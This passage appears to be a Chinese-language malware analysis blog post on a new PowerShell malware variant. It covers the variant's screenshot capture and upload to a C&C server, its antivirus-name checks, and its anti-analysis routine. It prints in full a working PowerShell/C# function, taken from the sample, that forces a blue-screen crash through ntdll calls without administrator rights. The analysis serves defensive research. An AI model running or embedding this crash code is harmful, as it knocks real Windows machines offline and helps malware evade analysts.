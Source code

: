 

## 新样本的变化

在上一篇博客中，我分析的大部分功能仍然存在于新变体之中。除此之外，在新样本中还有一些新增的功能，也对一些功能做了修改：<br>
1、屏幕截图功能的代码被重新编写，但仍然保持了原有的功能。新变体会截取被感染用户的屏幕截图，将其保存为PNG格式，并转换为字节，使用Base64对其进行编码，然后上传至C&amp;C服务器。<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://1.bp.blogspot.com/-xxxqD_np2Y8/WvHqGd6c50I/AAAAAAAA9DA/pJ_NRVqn4Gc3mECjfQp0fpfhO2fflv7xgCLcBGAs/s1600/Screenshot%2Bfunction%2Band%2Bencode.PNG)<br>
2、在新样本中，我发现在特定过程中，包含了可以导致蓝屏死机（BSOD）的代码。这部分使用了反调试和反分析技术。<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://3.bp.blogspot.com/-5aMA8Famwto/WvHwKmSjhQI/AAAAAAAA9DQ/d2njYgIBLToBLYAaeLpRlShc19L7IwOnwCLcBGAs/s1600/Looking%2Bfor%2BVM%2BProcesses.PNG)<br>
在上图的最下面，我们高亮标出了“GDKZVLJXGAPYNUGCPJNPGZQPOLPPBG”函数，该函数的代码如下：

```
function GDKZVLJXGAPYNUGCPJNPGZQPOLPPBG(){
$s = @"
using System;
using System.Runtime.InteropServices;
public static class C{
[DllImport("ntdll.dll")]
public static extern uint RtlAdjustPrivilege(int Privilege, bool bEnablePrivilege, bool IsThreadPrivilege, out bool PreviousValue);
[DllImport("ntdll.dll")]
public static extern uint NtRaiseHardError(uint ErrorStatus, uint NumberOfParameters, uint UnicodeStringParameterMask, IntPtr Parameters, uint ValidResponseOption, out uint Response);
public static unsafe void Kill(){
Boolean tmp1;
uint tmp2;
RtlAdjustPrivilege(19, true, false, out tmp1);
NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out tmp2);
}
}
"@
$c = new-object -typename system.CodeDom.Compiler.CompilerParameters
$c.CompilerOptions = '/unsafe'
$a = Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c
[C]::Kill()
}
```

这是在一个月前，由Barrett Adams ([@peewpw](https://github.com/peewpw), [https://twitter.com/peewpw](https://twitter.com/peewpw) )编写的导致BSOD的代码，该代码可以从他的GitHub页面上找到（ [https://github.com/peewpw/Invoke-BSOD/blob/master/Invoke-BSOD.ps1](https://github.com/peewpw/Invoke-BSOD/blob/master/Invoke-BSOD.ps1) ）。有一点需要注意，这段代码无需管理员权限执行，即可导致BSOD。<br>
如果在受感染系统上存在cmd.exe或PowerShell.exe或Powershell_ISE.exe进程，也会执行相同的函数和代码。<br>
3、此外，还有一个功能，是在ProgramData文件夹中查找是否存在字符串“Kasper”、“Panda”和“ESET”。如果存在，将会中断屏幕截图功能和上传功能。



## 总结
